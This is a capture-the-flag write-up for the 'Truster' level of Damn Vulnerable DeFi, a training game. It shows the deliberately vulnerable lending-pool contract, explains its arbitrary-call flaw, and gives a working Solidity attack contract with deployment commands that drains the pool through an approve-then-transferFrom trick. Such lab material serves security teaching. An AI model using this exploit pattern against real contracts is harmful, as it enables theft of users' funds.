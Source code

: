 <img src="https://github.com/wasny0ps/Damn-Vulnerable-DeFi/blob/main/src/3.png">

# Target Contract Review

Given contract.

**TrusterLenderPool.sol**

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "../DamnValuableToken.sol";

/**
 * @title TrusterLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract TrusterLenderPool is ReentrancyGuard {
    using Address for address;

    DamnValuableToken public immutable token;

    error RepayFailed();

    constructor(DamnValuableToken _token) {
        token = _token;
    }

    function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
        external
        nonReentrant
        returns (bool)
    {
        uint256 balanceBefore = token.balanceOf(address(this));

        token.transfer(borrower, amount);
        target.functionCall(data);

        if (token.balanceOf(address(this)) < balanceBefore)
            revert RepayFailed();

        return true;
    }
}
```

`TrusterLenderPool` is a contract that **allows users to borrow tokens from the pool and execute arbitrary code in a flash loan**.

The constructor function takes an instance of the `DamnValuableToken` contract and assigns it to the token variable.

`flashLoan()` : It allows a borrower to borrow a specified amount of tokens from the pool and execute a target function with provided data. The borrower must provide the amount to borrow, their address, the target contract address, and the data to be executed.

Inside the function, the current balance of the token contract is stored in the `balanceBefore` variable. Then, the specified amount of tokens is transferred from the pool to the borrower's address using the transfer function of the token contract. After that, the target function specified by the borrower is executed using the `functionCall()` function.







Challenge's message:

> More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.
The pool holds 1 million DVT tokens. You have nothing.
To pass this challenge, take all tokens out of the pool. If possible, in a single transaction.

# Subverting

The `flashLoan()` function allows one to take a flash loan and then ensures that the loan has been paid back. This function executes the `target.functionCall(data)` command which gives us the ability to call a low-level function. In other words, we can call the ERC20 standard token's functions. Like `approve()`...

In this case, we can call the `approve()` function to approve all balances. After that, we clearly call the `flashLoan()` function to transfer all tokens from the pool contract by passing the first parameter as 0. Here is what our attack contract looks like:


```solidity
pragma solidity ^0.8.0;

import "../truster/TrusterLenderPool.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract AttackTruster {

    TrusterLenderPool pool;
    constructor(address payable _pool){
        pool = TrusterLenderPool(_pool);
    }

    function attack(IERC20 token)external{
        uint balance = token.balanceOf(address(pool));
        bytes memory data = abi.encodeWithSignature("approve(address,uint256)", address(this), balance);
        pool.flashLoan(0, msg.sender, address(token), data);
        token.transferFrom(address(pool), msg.sender, balance);
    }
}
```

Basically, it gets the address of the `TrusterLenderPool` contract in the constructor. Later, it gets the pool contract's balance. Next, it **encodes the data variable with the abi signature parameter as the approve function and its parameters** we will have sent when the `functionCall()` is executed.

In the final step, first, we call the flashLoan function to execute data. Lastly, we transfer all tokens to our balance. Here are the attacker commands:

```js
const AttackFactory = await ethers.getContractFactory('AttackTruster', deployer);
attack = await AttackFactory.deploy(pool.address);
await attack.connect(player).attack(token.address);
```

Solve the challenge.

```powershell
  [Challenge] Truster
    ✔ Execution (73ms)


  1 passing (2s)

Done in 2.75s.
```

**_by wasny0ps_**
